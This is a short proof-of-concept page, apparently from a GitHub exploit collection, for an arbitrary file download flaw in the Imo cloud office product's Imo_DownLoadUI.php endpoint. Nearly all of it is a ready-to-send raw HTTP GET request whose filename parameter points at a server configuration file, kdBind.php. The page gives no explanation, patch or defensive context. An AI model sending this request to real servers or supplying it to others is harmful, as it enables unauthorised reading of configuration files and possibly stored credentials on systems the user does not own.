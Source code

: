 # imo-Imo_DownLoadUI_filedownload

```
GET /file/Placard/upload/Imo_DownLoadUI.php?cid=1&uid=1&type=1&filename=/OpenPlatform/config/kdBind.php HTTP/1.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: keep-alive
Host: 
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.0.0 Safari/537.36
```
from: https://github.com/wy876/POC/blob/main/Imo%E4%BA%91%E5%8A%9E%E5%85%AC/imo%E4%BA%91%E5%8A%9E%E5%85%AC%E5%AE%A4%E6%8E%A5%E5%8F%A3Imo_DownLoadUI.php%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E4%B8%8B%E8%BD%BD%E6%BC%8F%E6%B4%9E.md
